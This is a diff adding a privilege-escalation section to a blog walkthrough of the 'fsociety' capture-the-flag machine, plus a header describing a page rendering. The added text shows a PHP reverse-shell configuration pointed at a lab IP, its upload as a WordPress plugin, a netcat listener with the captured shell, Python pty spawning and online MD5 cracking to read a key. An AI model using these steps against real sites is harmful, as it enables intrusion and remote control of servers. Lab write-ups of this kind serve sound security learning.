

Before and after one commit to blackdoor/blog, a Jekyll site: the page built from _posts/2016-08-06-hacking-fsociety.md, in a window 1280 px wide and 1400 px high, scrolled down 3168 px. Shown: the whole window, without its empty margins (308-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3798 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
added some content

````diff
--- a/_posts/2016-08-06-hacking-fsociety.md
+++ b/_posts/2016-08-06-hacking-fsociety.md
@@ -153,4 +153,83 @@
 
 Input the credentials into the login form... and we're in.
 
+# Privilege Escelation
+
+From the WordPress admin page, we have access to the source code of a variety of plugins.
+Using this, we can spawn a reverse shell with some clever PHP code. The reverse shell I use
+I grabbed from [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), just
+make sure to make the necessary adjustments to the socket so you can actually recieve the
+traffic your reverse shell sends back. To do this, edit these lines of the above .php script:
+
+```php
+set_time_limit (0);
+$VERSION = "1.0";
+$ip = '10.0.2.15';  // CHANGE THIS
+$port = 6666;       // CHANGE THIS
+$chunk_size = 1400;
+$write_a = null;
+$error_a = null;
+$shell = 'uname -a; w; id; /bin/sh -i';
+$daemon = 0;
+$debug = 0;
+```
+
+to reflect your own IP address as well as a generic port you wish to recieve the traffic on.
+After that, either zip and upload the standalone PHP shellcode as a WordPress plugin, or paste
+the script into one of the plugins already on the site. Then, set up a listener in your terminal
+and activate the plugin containing the payload:
+
+```sh
+root@bento:~# nc -lvp 6666
+listening on [any] 6666 ...
+10.0.2.10: inverse host lookup failed: Unknown host
+connect to [10.0.2.15] from (UNKNOWN) [10.0.2.10] 57491
+Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
+ 22:26:41 up  1:08,  0 users,  load average: 0.01, 0.04, 0.05
+USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=1(daemon) gid=1(daemon) groups=1(daemon)
+/bin/sh: 0: can't access tty; job control turned off
+$ whoami
+daemon
+$
+```
+
+Cool, we have a shell session up. I poked around the system for a long time looking for clues or
+other keys, and finally found the files 'password.raw-md5' and 'key-2-of-3.txt' in '/home/robot'. However, cat-ing the file gives Permission Denied. Looks like I'll have to escalate my privilege.
+
+```sh
+$ su
+su: must be run from a terminal
+$
+```
+
+Okay, first we have to spawn a terminal with Python:
+
+```sh
+$ python -c 'import pty; pty.spawn("bin/sh")'
+$ su robot
+su robot
+Password:
+```
+
+Great, now at least we can 'su'. Going back to the file 'password.raw-md5' we found does indeed
+give us a raw md5 hash. Popping it into one of the online crackers like [this one](http://md5cracker.org/)
+gives us the string 'abcdefghijklmnopqrstuvwxyz'. Nice. You'd think Elliot would have a better
+password.
+
+```sh
+$ su robot
+Password: abcdefghijklmnopqrstuvwxyz
+
+robot@linux:/$ whoami
+whoami
+robot
+robot@linux:/$ cat key-2-of-3.txt
+cat key-2-of-3.txt
+822c73956184f694993bede3eb39f959
+robot@linux:/$
+```
+
+Nice. Got the second key.
+
 -TC
````
